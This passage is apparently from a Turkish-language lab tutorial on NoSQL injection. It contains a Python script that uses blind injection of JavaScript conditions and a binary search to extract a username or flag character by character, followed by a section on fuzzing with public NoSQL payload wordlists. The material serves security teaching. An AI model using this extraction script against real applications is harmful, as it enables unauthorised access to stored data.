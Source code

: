 ```python
print("Username: %s" % username)
print("Requests: %d" % num_req)
print()

# Kullanıcı adını dump et (binary search)
num_req = 0 # Request counter'ı sıfırlayın
username = "HTB{" # Bilinen kullanıcı adı başlangıcı
i = 4 # İlk 4 karakteri atlayın (HTB{)
while username[-1] != "}": # Kullanıcı adının sonu olan ‘}’ ile karşılaşana kadar tekrarlayın
    low = 32 # Search alanının düşük değerini ayarlayın (‘ ’)
    high = 127 # Search alanının yüksek değerini ayarlayın (‘~’)
    mid = 0
    while low <= high:
        mid = (high + low) // 2 # Search alanının orta noktasını hesaplayın
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # 'i' indeksindeki kullanıcı adının ASCII değeri < orta nokta ise, alt sınırı artırın ve tekrarlayın
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # 'i' indeksindeki kullanıcı adının ASCII değeri > orta nokta ise, üst sınırı azaltın ve tekrarlayın
        else:
            username += chr(mid) # ASCII değeri orta noktadan yüksek veya düşük değilse hedef değeri bulduk
            break # Döngüden çıkın
    i += 1 # Index sayacını artırır (bir sonraki karakter üzerinde çalışmaya başlar)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
```


## Tools of the Trade

### Wordlist'ler ile Fuzzing

**[Fuzzing](https://owasp.org/www-community/Fuzzing)**, testçinin bir programa büyük miktarda veri enjekte ederek yazılım arızalarını görmek için kullandığı bir tür **black-box testing** tekniğidir. **NoSQLi** testi context'inde, olası **NoSQLi payload**'larının bulunduğu **wordlist**'leri kullanarak, sunucunun nasıl farklı bir **response** verdiğini görmek, başarılı bir **data injection** işleminin göstergesi olacaktır.

**Fuzzing**'in etkinliği, büyük ölçüde **wordlist**'in seçimine bağlıdır. Ne yazık ki, **NoSQL** için çok fazla kamuya açık **wordlist** bulunmamaktadır, ancak işte birkaç tane:

Fuzzing'in verimliliği büyük ölçüde wordlist seçimine bağlıdır. Ne yazık ki NoSQL için çok fazla genel kelime listesi yoktur, ancak burada birkaç tane var:

- [seclists/Fuzzing/Databases/NoSQL.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/NoSQL.txt)
- [nosqlinjection_wordlists/mongodb_nosqli.txt](https://github.com/cr0hn/nosqlinjection_wordlists/blob/master/mongodb_nosqli.txt)
